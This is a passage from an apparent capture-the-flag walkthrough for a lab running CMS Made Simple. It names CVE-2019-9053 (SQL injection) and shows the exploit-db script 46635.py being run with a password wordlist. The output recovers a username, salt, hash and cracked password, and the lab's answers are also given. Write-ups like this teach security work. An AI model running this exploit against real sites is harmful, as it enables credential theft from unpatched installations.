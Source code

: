 ```bash
└─$ cat /usr/share/exploitdb/exploits/php/webapps/46635.py |head
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```
Perfect, that looks like a good start. 

Answer: `CVE-2019-9053`


### To what kind of vulnerability is the application vulnerable?

We got that already in our previous question. 


Answer: `SQLi`

### What's the password?

We use the Python Script from exploitdb. First we copy it into our Path. I got some errors because of missing modules, so I installed them via `pip`.

In my case there was `requests` missing.

`sudo pip3 install requests`

If you start the script, it says which parameter we need:

```bash
┌──(admin㉿PREDATOR-01)-[~/termcolor-2.4.0/src]
└─$ python3 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

So lets use it.

`$ python3 46635.py -u http://$ip/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`

After a few minutes we get a result:

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret

```
